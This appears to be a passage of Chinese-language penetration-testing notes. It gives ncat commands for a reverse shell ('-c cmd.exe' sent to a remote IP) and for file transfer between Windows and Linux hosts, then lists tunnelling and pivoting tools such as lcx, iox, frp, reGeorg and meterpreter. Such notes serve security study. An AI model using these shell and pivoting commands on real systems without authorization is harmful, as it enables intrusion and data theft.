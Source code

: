 ```l
linux先监听，win连linux，在linux中执行命令（linux被动连接）
linux：
ncat -v -lp 444
win：
ncat -v -c cmd.exe 192.168.22.154 444

文件传输

linux先传输，win后接收
linux:
ncat -v -lp 444 < 1.txt
win:
ncat -v  192.168.22.154 444 > 1.txt

win先传输，linux后接收
win:
ncat  -v -lp 444 <  2.txt
linux:
ncat -v 192.168.3.219 444 > 2.txt

win连接收，linux后传输
win:
ncat -v -lp 444 > 3.txt
linux:
ncat -v 192.168.3.219 444 < 2.txt

linux连接收，win后传输
linux:
ncat -v -lp 444 > 4.txt
win:
ncat -v  192.168.22.154 444 < 1.txt
```

- 其他工具

```l
netcat：网络工具中的瑞士军刀，不多介绍，linux系统一般自带

powercat：powershell版的netcat

socat：具有记录转发流的功能，方便查看转发内容，需要安装

netsh：windows系统自带的网络配置工具

lcx：端口转发工具

NATBypass：一款lcx在golang下的实现,更好的跨平台，更完善的文档

iox：端口转发 & 内网代理工具，功能类似于lcx/ew，简化了命令行参数，支持UDP流量转发，更好的跨平台。缺点：不支持监听指定IP，默认监听0.0.0.0:port，会增大暴露风险

Frp
ngrok

常见的HTTP/HTTPS代理工具有reGeorg、meterpreter、tunna等...
```
